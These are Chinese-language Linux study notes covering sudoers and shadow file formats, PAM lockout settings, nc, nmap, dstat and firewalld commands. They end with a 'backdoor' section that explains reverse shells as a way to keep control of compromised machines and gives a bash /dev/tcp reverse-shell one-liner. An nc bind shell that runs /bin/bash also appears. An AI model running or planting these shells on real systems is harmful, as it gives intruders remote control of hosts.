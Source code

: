 ### /etc/sudoer
    - root ALL=(ALL) ALL
        - 第一个ALL 允许哪个终端、机器访问 sudo
        - 第二个ALL 允许sudo以哪个用户的身份执行命令
        - 第三个ALL 允许用户以root身份执行什么命令
### /etc/shadow
    - garys:$1$2Uu6yiEE$m4Pj3bKxVd9oLA74jj4F0/:18364:0:99999:7:::
        - 第一列 用户名
        - 第二列 被加密过的密码；‘ * ’或者是‘ ! ’表示这个用户无法进行登录操作。
        - 第三列 密码最近变更的时间；1970年1月1日作为1，每过一天加1；
        - 第四列 重设密码后多少天内密码不可再次被更动
        - 第八列 账户哪一天失效
### PAM(Pluggable Authentication Modules)
- /etc/ssh/sshd_config 默认是开启状态“UsePAM yes”
- pam_tally2
```bash
# 禁止/etc/ssh/denyuser文件内的用户通过ssh登录
vim /etc/pam.d/sshd
auth required pam_listfile.so item=user sense=deny file=/etc/ssh/denyuser onerr=succeed
``
查看test用户登录的错误次数及详细信息
pam_tally2 --user test
清空test用户的错误登录次数，即手动解锁
pam_tally2 --user test --reset

# 通过tty登录的用户，输入密码错误超过三次则锁定1分钟，包含root用户且root用户锁定2分钟
vim  /etc/pam.d/login
auth required pam_tally2.so deny=3 unlock_time=60 even_deny_root root_unlock_time=120

vim /etc/pam.d/login
```
### 网络工具
1. nc 使用TCP或UDP协议跨网络连接读写数据
    nc -v 8080
    nc -l -u -k 8080 -e /bin/bash
2. nmap 网络探索和安全审计的开源工
    rpm -vhU http://nmap.org/dist/nmap-5.21-1.i386.rpm
    rpm -vhU http://nmap.org/dist/zenmap-5.21-1.noarch.rpm
    
    - 四种基本的扫描方式：
        + TCP connect()端口扫描（-sT参数）。
        + TCP同步（SYN）端口扫描（-sS参数）。
        + UDP端口扫描（-sU参数）。
        + Ping扫描（-sP参数）。
    - 扫描结果
        Open 端口监听
        filtered 意味着防火墙，过滤器或者其它网络障碍阻止了该端口被访问，Nmap 无法得知 它是 open还是 closed   
        closed 端口未被监听  
        unfiltered 无法确定它们是关闭还是开放时   
        open filtered 监听或者被过滤的  
        closed filtered 关闭或者被过滤的  

    - 扫描 默认会扫描1-1024端口和其他一些常用端口
        nmap -sS -p 0-30000 127.0.0.1
3. dstat 是一个用来替换vmstat、iostat、netstat、nfsstat和ifstat这些命令的工具，是一个全能系统信息统计工具
    - 分组含义及子项字段含义
        ```yaml
        CPU状态: CPU的使用率。显示了用户占比，系统占比、空闲占比、等待占比、硬中断和软中断情况。
        磁盘统计: 磁盘的读写，分别显示磁盘的读、写总数。
        网络统计: 网络设备发送和接受的数据，分别显示的网络收、发数据总数。
        分页统计: 系统的分页活动。分别显示换入（in）和换出（out）。
        系统统计: 统计中断（int）和上下文切换（csw）。
        ```
    - 测网速
        nc -l 9999 >/dev/null
        nc IP 9999 </dev/zero
        dstat


## iptables
### firewalld 被封装过的iptables
systemctl status firewalld.service

1. 查看防火墙规则
firewall-cmd --list-all 

2. 要想使配置的端口号生效,必须重新载入 
firewall-cmd --reload

3. 查询端口是否开放
firewall-cmd --query-port=8080/tcp
4. 开放80端口 和 移除端口
firewall-cmd --permanent --add-port=80/tcp
firewall-cmd --permanent --remove-port=8080/tcp
firewall-cmd --permanent --zone=public --add-port=80/tcp 
5. 端口转发：
firewall-cmd --permanent --add-forward-port=port=80:proto=tcp:toport=8080:toaddr=134.175.167.56


## 后门
- 参考  
https://xz.aliyun.com/t/2549  
### 反弹shell
1. 意义
    1. 局域网内肉鸡无法被连接。
    2. 肉鸡ip会动态改变，不能持续控制。
    3. 防火墙等限制，肉鸡只能发送请求，不能接收请求。
    4. 肉鸡网络环境未知，主动连接，省事。
2. 实现
```bash
# 我方服务器执行
nc -lvp 2333
# 肉鸡上执行
IP=127.0.0.1
bash -i >& /dev/tcp/${IP}/2333 0>&1
```